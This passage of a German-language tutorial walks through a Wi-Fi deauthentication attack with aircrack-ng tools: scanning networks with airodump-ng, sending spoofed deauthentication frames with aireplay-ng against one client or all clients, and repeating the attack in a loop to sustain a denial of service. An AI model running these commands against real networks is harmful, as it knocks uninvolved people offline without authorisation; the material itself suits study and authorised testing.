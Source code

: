     Bash
    
    ```
    sudo airodump-ng <Monitor-Interface>
    ```
    
    _(Beispiel: `sudo airodump-ng wlan0mon`)_(Beispielhafte Ausgabe von airodump-ng, die WLAN-Netzwerke und verbundene Geräte zeigt)
    
    [![Bildmotiv: airodumpng output showing WLAN networks and connected devices](https://encrypted-tbn1.gstatic.com/images?q=tbn:ANd9GcSEEdNj25lH4HNi1S-Q93lS8OvwoHbtpKAi6cNRjOpSOq4j-3qsvIb_u6Gy2ErH)Wird in einem neuen Fenster geöffnet](https://www.researchgate.net/figure/Results-of-a-scan-using-Airodump-ng_fig2_327563071)[![](https://encrypted-tbn0.gstatic.com/favicon-tbn?q=tbn:ANd9GcQHnHFqVlgn9GP_QNJZJqp5p4tCYLbsP3aagcGHhOG1R5B49YpECY11Ifpa36Xt9B7B7i5sptMSQYILbaYUaLXDbBCp19SJHEuOmPv3eRw)www.researchgate.net](https://www.researchgate.net/figure/Results-of-a-scan-using-Airodump-ng_fig2_327563071)
    
    airodumpng output showing WLAN networks and connected devices
    
3. **Generierung und Versand von Deauthentication Frames:**
    
    - Mit einem Tool wie `aireplay-ng` (ebenfalls aus der Aircrack-ng Suite) generiert und versendet der Angreifer Deauthentication Frames.
    - Der Angriff kann gezielt gegen ein bestimmtes Gerät gerichtet werden, indem die MAC-Adresse des Zielgeräts im Deauthentication Frame angegeben wird.
    - Oder der Angriff kann als "Broadcast Deauthentication" gegen alle Geräte im Netzwerk gerichtet sein, indem die Broadcast-MAC-Adresse als Ziel verwendet wird.
    - Der Angreifer **fälscht** die MAC-Adresse des Access Points als Absenderadresse im Deauthentication Frame, damit es für das Zielgerät so aussieht, als ob der Befehl zum Trennen vom legitimen Access Point kommt.
    
    **Beispiele für `aireplay-ng` Befehle:**
    
    - **Gezielter Angriff auf ein Gerät (mit Angabe der Client-MAC-Adresse):**
    
    Bash
    
    ```
    sudo aireplay-ng --deauth 1 -a <BSSID des AP> -c <MAC-Adresse des Zielgeräts> <Monitor-Interface>
    ```
    
    _(Beispiel: `sudo aireplay-ng --deauth 1 -a AA:BB:CC:11:22:33 -c DD:EE:FF:44:55:66 wlan0mon`)_
    
    - **Broadcast Deauthentication (alle Geräte im Netzwerk trennen):**
    
    Bash
    
    ```
    sudo aireplay-ng --deauth 1 -a <BSSID des AP> <Monitor-Interface>
    ```
    
    _(Beispiel: `sudo aireplay-ng --deauth 1 -a AA:BB:CC:11:22:33 wlan0mon`)_
    
    - `--deauth 1`: Anzahl der Deauthentication Frames (1 reicht oft aus).
    - `-a <BSSID des AP>`: BSSID (MAC-Adresse) des Access Points des Zielnetzwerks.
    - `-c <MAC-Adresse des Zielgeräts>`: MAC-Adresse des Zielgeräts (optional, für gezielten Angriff).
    - `<Monitor-Interface>`: Das Monitor-Interface der WLAN-Karte.
4. **Wiederholung des Angriffs (optional):** Um den Denial-of-Service aufrechtzuerhalten, kann der Angreifer den Deauthentication-Angriff in einer Schleife wiederholen, indem er kontinuierlich Deauthentication Frames sendet.
    
